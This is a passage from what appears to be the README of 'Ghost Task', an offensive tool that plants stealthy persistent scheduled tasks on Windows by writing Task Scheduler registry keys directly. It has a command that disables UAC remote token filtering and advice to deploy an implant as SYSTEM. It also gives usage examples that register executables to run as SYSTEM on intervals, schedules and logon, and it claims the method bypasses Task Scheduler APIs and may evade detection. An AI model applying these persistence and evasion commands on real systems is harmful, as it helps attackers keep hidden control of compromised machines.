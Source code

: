 **Fixing UAC Remote Restrictions:**
On the target system, disable UAC remote token filtering:
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

**Best Practice for Remote:**
- Use domain administrator credentials when possible (not subject to UAC filtering)
- Ensure Remote Registry service is running: `sc \\target query RemoteRegistry`
- Test basic SMB connectivity first: `dir \\target\c$`
- Consider deploying an implant to the target as SYSTEM and using `localhost` instead

## Schedule Types

### 1. Second (Interval-based)
Executes the task repeatedly at a specified interval in seconds.
```
ghost_task localhost add IntervalTask C:\task.exe "" SYSTEM second 300
```

### 2. Daily
Executes the task once per day at a specified time.
```
ghost_task localhost add DailyTask C:\task.exe "" SYSTEM daily 09:30
```

### 3. Weekly
Executes the task on specific days of the week at a specified time.
```
ghost_task localhost add WeeklyTask C:\task.exe "" Administrator weekly 18:00 monday,wednesday,friday
```

### 4. Logon
Executes the task when the specified user logs on.
```
ghost_task localhost add LogonTask C:\task.exe "" SYSTEM logon
```

## Technical Details

Ghost Task directly manipulates these registry keys:
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\`
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Plain\`

This approach:
- Bypasses Task Scheduler COM APIs
- Creates properly formatted binary structures in registry
- Requires Task Scheduler service restart to load new tasks
- May evade detection mechanisms looking for API calls
